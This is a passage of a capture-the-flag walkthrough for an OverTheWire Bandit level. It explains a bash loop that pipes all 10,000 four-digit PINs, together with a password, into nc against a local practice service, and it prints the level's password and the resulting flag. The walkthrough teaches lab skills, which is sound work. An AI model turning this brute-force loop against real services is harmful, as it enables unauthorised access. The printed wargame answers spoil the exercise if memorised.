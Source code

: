 ```bash
mkdir /tmp/shell-script
cd /tmp/shell-script
```

Then lets use nano to create our shell script

```bash
nano brute-force.sh
```

So we now from the level goal our script needs to do a couple things.

1) Connect to port 30002 on localhost
2) Provide the password for bandit24 along with a 4 digit pincode (10,000 possible combinations due to there 10 options per digit (0-9) and there being 4 digits, so 10^4).
3) No need to create a new connection everytime

So lets write our shell script

```bash
#! /bin/bash
for i in {0000..9999}
do 
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002
```

Then run our script

```bash
bash brute-force.sh
```

And we get our flag!

### Flag

```
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

```

### Commands breakdown

```bash
#! /bin/bash
for i in {0000..9999}
do 
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002
```

I am going to breakdown our shell script so you understand what we did and how we got our flag using it.

```bash
for i in {0000..9999}
```
This is a for loop that is set in the range 0000-9999. This means that our loop will run 10,000 times start ing at 0000. and "i" will be assigned a new number depending on what iteration of the loop it is in. For example on the first iteration i = 0000, the second iteration i = 0001 and so on.
